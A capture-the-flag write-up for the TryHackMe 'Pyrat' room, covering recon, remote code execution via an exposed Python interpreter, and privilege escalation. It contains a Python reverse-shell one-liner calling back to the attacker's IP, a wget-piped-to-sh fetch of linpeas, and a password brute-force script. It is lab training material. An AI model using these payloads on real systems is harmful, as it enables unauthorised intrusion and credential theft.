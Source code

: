 ```http
https://tryhackme.com/room/pyrat
```

```ip
10.10.138.253
```
___
___
# RECON
## Nmap
```bash
nmap 10.10.138.253 -p- -sS -Pn --vv -T5-oN Pyrat.txt
```

```results nmap
Discovered open port 22/tcp on 10.10.138.253
Discovered open port 8000/tcp on 10.10.138.253
```
___
### Check 8000 port
Discovered open port 8000/tcp on 10.10.138.253
```bash
──(goose㉿kali)-[/tmp]
└─$ curl http://10.10.138.253:8000
Try a more basic connection   
```
___

# RCE

```bash
nc 10.10.138.253 8000
```

```bash
name 'ip' is not defined
id

whoami
name 'whoami' is not defined
'
EOL while scanning string literal (<string>, line 1)
''

)
unmatched ')' (<string>, line 1)
:
invalid syntax (<string>, line 1)
```

> [!NOTE]
> Python Interpreter)))

## Payload
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.34",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
___
___
# LPE
___
/opt/dev/.git
```bash
cat config
```

```results
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = **************
```

### Serach google 
```http
site:github.com 'josemlwdf@github.com'
```

### BINGo
```http
https://github.com/josemlwdf/PyRAT
```
# Linpeas

```bash
wget -qO- 10.9.1.34:80/linpeas.sh | sh
```

```http
https://github.com/LucasPDiniz/CVE-2021-3560
https://github.com/swapravo/polkadots
```


___
___
# SSH creds!!!
```bash
[credential "https://github.com"]
        username = think
        password = ********
```


```python3
import socket
from tqdm import tqdm  # Для прогресс-бара (установка: pip install tqdm)

def brute_force(host, port, wordlist_path="/usr/share/wordlists/rockyou.txt
"):
    with open(wordlist_path, "r", errors="ignore") as f:
        passwords = [line.strip() for line in f.readlines()]

    for password in tqdm(passwords, desc="Перебор паролей"):
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((host, port))
            
            # Ждём "Password:"
            data = s.recv(1024).decode()
            if "Password:" not in data:
                continue
            
            # Отправляем текущий пароль
            s.sendall(password.encode() + b"\n")
            
            # Проверяем ответ
            response = s.recv(1024).decode()
            if "Welcome Admin" in response:
                print(f"\n[+] Успех! Пароль: {password}")
                return password
            
            s.close()
        except:
            continue
    
    print("\n[-] Пароль не найден в rockyou.txt.")
    return None

# Запуск
brute_force("10.9.1.34", 8000)  # Подставь свой IP и порт
```
___
___
# Root flag
```bash
cat /root/root.txt
```
